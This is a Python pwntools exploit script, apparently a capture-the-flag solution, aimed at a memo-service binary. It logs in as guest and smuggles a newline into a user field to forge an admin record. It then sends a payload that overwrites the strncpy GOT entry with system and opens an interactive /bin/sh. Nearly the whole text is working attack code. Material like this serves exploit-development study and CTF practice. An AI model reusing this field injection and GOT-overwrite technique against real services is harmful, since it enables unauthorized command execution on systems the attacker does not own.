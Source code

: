 ``` python
    return s.recvuntil(b"}\n")

def update_memo(s, token, payload):
    json = f"{{token:{token},method:UpdateMemo}}"
    s.send(json.encode())
    pause()
    s.send(payload)
    return

def main(server, port, debug):
    if(port):
        s = remote(server, port)
        if debug:
            pid = os.popen(f"sudo docker top {CONTAINER} -eo pid,comm | grep {BINARY} | awk '{{print $1}}'").read()
            gdb.attach(int(pid), gs, exe=BINARY)
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    token = create_session(s, "guest", "guest").split(b"token:")[1].split(b"}")[0].decode()
    log.info(f"guest token : {token}")

    create_user(s, token, "AAAA", "AAAA", "AAAA]\n[1|admin|admin|admin memo")

    clear_session(s)
    sleep(0.5)

    token = create_session(s, "admin", "admin").split(b"token:")[1].split(b"}")[0].decode()
    log.info(f"admin token : {token}")

    read_strncpy_gadget = 0x40214C
    payload = b"/bin/sh\n" * 2
    payload += p64(elf.got['strncpy'] + 0x10)   # rbp
    payload += p64(read_strncpy_gadget)         # ret
    update_memo(s, token, payload)

    sleep(0.5)
    payload = p64(0x4010a0)                     # system
    s.send(payload)

    s.interactive()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-s', '--server', type=str, default="0.0.0.0")
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.server, args.port, args.debug)
```
